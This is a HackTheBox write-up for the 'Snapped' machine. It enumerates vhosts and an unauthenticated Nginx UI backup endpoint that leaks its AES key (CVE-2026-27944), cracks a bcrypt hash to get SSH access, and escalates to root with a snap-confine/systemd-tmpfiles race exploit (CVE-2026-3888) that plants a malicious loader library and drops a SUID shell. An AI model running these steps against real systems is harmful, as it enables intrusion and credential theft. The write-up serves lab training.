

# Snapped



---

## Overview

**Snapped** is an Hard-rated Linux machine on HackTheBox. The name is a direct hint — the box is themed around `snapd`, the snap package manager that ships by default on Ubuntu Desktop. The attack chain starts with vhost enumeration exposing an **Nginx UI** admin panel, where an unauthenticated backup download endpoint (CVE-2026-27944) leaks both an encrypted backup archive and the AES-256 key/IV needed to decrypt it in the same HTTP response. Decrypting the backup yields an SQLite database containing bcrypt hashes; cracking the weaker hash produces SSH credentials. Privilege escalation exploits **CVE-2026-3888**, a TOCTOU race condition between `snap-confine` and `systemd-tmpfiles` that allows any unprivileged local user to escalate to full root on Ubuntu Desktop 24.04+.

| Detail | Value |
|---|---|
| Machine Name | Snapped |
| IP Address | `10.129.1.110` |
| Domain | `snapped.htb` |
| OS | Linux (Ubuntu 24.04) |
| Difficulty | Hard |

---

## Table of Contents

1. [Reconnaissance](#1-reconnaissance)
2. [Vhost Enumeration](#2-vhost-enumeration)
3. [Nginx UI — CVE-2026-27944 Unauthenticated Backup Download](#3-nginx-ui--cve-2026-27944-unauthenticated-backup-download)
4. [Backup Decryption & Credential Extraction](#4-backup-decryption--credential-extraction)
5. [SSH Foothold as jonathan](#5-ssh-foothold-as-jonathan)
6. [Privilege Escalation — CVE-2026-3888 snap-confine TOCTOU LPE](#6-privilege-escalation--cve-2026-3888-snap-confine-toctou-lpe)

---

## 1. Reconnaissance

### Port Scan

```
sudo nmap -sC -sV 10.129.1.110
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.15
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://snapped.htb/
```

Two ports: SSH and HTTP. The web server immediately redirects to `snapped.htb` — add it to `/etc/hosts`:

```bash
echo "10.129.1.110 snapped.htb" | sudo tee -a /etc/hosts
```

---

## 2. Vhost Enumeration

The redirect to `snapped.htb` suggests virtual host routing. Fuzz for additional subdomains:

```bash
ffuf -u http://10.129.1.110 \
  -H 'Host: FUZZ.snapped.htb' \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt \
  -mc 200
```

```
admin    [Status: 200, Size: 1407, Words: 164, Lines: 50]
```

Add to `/etc/hosts`:

```bash
echo "10.129.1.110 admin.snapped.htb" | sudo tee -a /etc/hosts
```

Browsing to `http://admin.snapped.htb` reveals an **Nginx UI** login panel (v2.1.0).

---

## 3. Nginx UI — CVE-2026-27944 Unauthenticated Backup Download

### API Endpoint Discovery

With no credentials, fuzz the API surface:

```bash
ffuf -u http://admin.snapped.htb/api/FUZZ \
  -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt \
  -mc 200
```

```
install    [Status: 200, Size: 29]
backup     [Status: 200, Size: 18306]
licenses   [Status: 200, Size: 52782]
```

### Vulnerability

**CVE-2026-27944** is an unauthenticated information disclosure in Nginx UI's `/api/backup` endpoint. The endpoint returns a full encrypted backup of Nginx and Nginx UI configuration data without requiring any authentication. Critically, the AES-256-CBC key and IV required to decrypt the backup are returned in the same response inside the `X-Backup-Security` response header — a complete self-defeating encryption implementation.

### Exploitation

Using the public PoC: [TheCyberGeek/CVE-2026-27944 / poc.py]

```bash
python3 poc.py --target http://admin.snapped.htb --out backup.bin --decrypt
```

The PoC:
1. Sends an unauthenticated `GET /api/backup`
2. Extracts the base64-encoded key and IV from the `X-Backup-Security` header (format: `base64_key:base64_iv`)
3. Decrypts the downloaded archive using AES-256-CBC
4. Extracts the inner archives

```
X-Backup-Security: <base64_key>:<base64_iv>
Parsed AES-256 key: <key>
Parsed AES IV    : <iv>

[*] Key length: 32 bytes (AES-256 ✓)
[*] IV length : 16 bytes (AES block size ✓)

[*] Extracting encrypted backup to backup_extracted/
[*] Main archive contains: ['hash_info.txt', 'nginx-ui.zip', 'nginx.zip']
[*] Decrypting nginx-ui.zip...
    → Extracted N files to backup_extracted/nginx-ui/
```

---

## 4. Backup Decryption & Credential Extraction

The decrypted `nginx-ui.zip` extracts to:

```
backup_extracted/nginx-ui/
├── app.ini
├── database.db
└── hash
```

`database.db` is an SQLite database. Inspect it:

```bash
sqlite3 database.db
```

```sql
.tables
```

```
acme_users   auth_tokens  ban_ips   certs   configs   dns_credentials
...
users
```

```sql
select * from users;
```

| id | name | password |
|---|---|---|
| 1 | admin | `$2a$10$8YdBq4e.WeQn8gv9E0ehh.quy8D/4mXHHY4ALLMAzgFPTrIVltEvm` |
| 2 | jonathan | `$2a$10$8M7JZSRLKdtJpx9YRUNTmODN.pKoBsoGCBi5Z8/WVGO2od9oCSyWq` |

Both are bcrypt hashes (mode 3200). Crack with hashcat:

```bash
hashcat -m 3200 hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

```
$2a$10$8M7JZSRLKdtJpx9YRUNTmODN.pKoBsoGCBi5Z8/WVGO2od9oCSyWq:linkinpark
```

`admin`'s hash does not crack. `jonathan : linkinpark` is recoverable.

---

## 5. SSH Foothold as jonathan

```bash
ssh jonathan@10.129.1.110
# password: linkinpark
```

Retrieve the user flag:

```bash
cat ~/user.txt
```

---

## 6. Privilege Escalation — CVE-2026-3888 snap-confine TOCTOU LPE

### Background

The machine name "Snapped" is an explicit hint at `snapd`. **CVE-2026-3888** (CVSS 7.8, disclosed by Qualys TRU on March 17, 2026) is a Local Privilege Escalation affecting the default installation of Ubuntu Desktop 24.04+. The vulnerability does not stem from a single broken component — neither `snap-confine` nor `systemd-tmpfiles` is individually flawed. The exploit emerges from their interaction.

**How it works:**

- `snap-confine` is the setuid-root binary that builds sandbox environments for snap applications (Firefox, Chromium, etc.). Every snap launch causes it to run as root and construct a mount namespace, copying trusted libraries into `/tmp/.snap/`.
- `systemd-tmpfiles` runs cleanup jobs on a timer, deleting directories under `/tmp` older than a threshold (30 days on Ubuntu 24.04, 10 days on earlier versions).

The TOCTOU race:
1. `snap-confine` reads trusted libraries from the real library paths into `/tmp/.snap/` (the **check**)
2. `systemd-tmpfiles` deletes `/tmp/.snap` during its cleanup cycle
3. An attacker recreates `/tmp/.snap` and populates it with a malicious `ld-linux-x86-64.so.2` (a shared library replaced with shellcode calling `setreuid(0,0) + execve`)
4. `snap-confine` bind-mounts the now attacker-controlled `/tmp/.snap` into the snap sandbox as root (the **use**)
5. The malicious library executes with root privileges, dropping a SUID bash to `/var/snap/firefox/common/`

The exploit uses AF_UNIX socket backpressure to reliably slow down `snap-confine` during the bind-mount sequence, widening the race window to a reliably winnable size.

**Patched in:** snapd 2.74.2 (March 17, 2026)

### Exploitation

Using the public PoC: [TheCyberGeek/CVE-2026-3888-snap-confine-systemd-tmpfiles-LPE](https://github.com/TheCyberGeek/CVE-2026-3888-snap-confine-systemd-tmpfiles-LPE)

Compile on the target (or cross-compile and transfer):

```bash
gcc -O2 -static -o exploit exploit_suid.c
gcc -nostdlib -static -Wl,--entry=_start -o librootshell.so librootshell_suid.c
scp <file> jonathan@snapepd.htb
#password: linkinpark
```

Transfer to the target and execute:

```bash
./exploit ./librootshell.so
```

```
================================================================
CVE-2026-3888 — snap-confine / systemd-tmpfiles SUID LPE
================================================================
[*] Payload: ./librootshell.so
[Phase 1] Entering Firefox sandbox...
[+] Inner shell PID: XXXX
[Phase 2] Waiting for .snap deletion...
[+] Race won — malicious library mounted
[+] SUID shell dropped to /var/snap/firefox/common/.rb
```
This drops a root shell after a successfull exploit:

```bash
bash-5.1# id
bash-5.1# cat /root/root.txt
```

```
uid=1001(jonathan) gid=1001(jonathan) euid=0(root) groups=1001(jonathan)
```

Root flag obtained.

*Note: SInce it is a race condition it may take multiple attempts to get a root shell*

---

## Attack Chain Summary

```
Nmap → port 80 → snapped.htb
  └─► vhost fuzz → admin.snapped.htb → Nginx UI v2.1.0
        └─► ffuf /api/FUZZ → /api/backup (200, no auth)
              └─► CVE-2026-27944: X-Backup-Security header leaks AES key+IV
                    └─► decrypt backup → nginx-ui.zip → database.db(SQLite)
                          └─► users table → jonathan bcrypt hash → hashcat → linkinpark
                                └─► SSH as jonathan → user flag
                                      └─► CVE-2026-3888: snap-confine TOCTOU race
                                            └─► AF_UNIX backpressure + malicious ld.so
                                                  └─► SUID shell → root flag
```

---

## Key Takeaways

| Finding | Impact |
|---|---|
| Nginx UI `/api/backup` accessible without authentication | Full backup download |
| AES-256 key disclosed in `X-Backup-Security` response header | Backup decryption |
| SQLite `users` table with bcrypt hashes in backup | Credential recovery |
| Weak password (`linkinpark`) in rockyou | SSH foothold |
| Ubuntu Desktop 24.04+ with unpatched snapd < 2.74.2 | LPE to root (CVE-2026-3888) |


*Writeup by Rajdeep Sarkar - HackTheBox Retired Machine*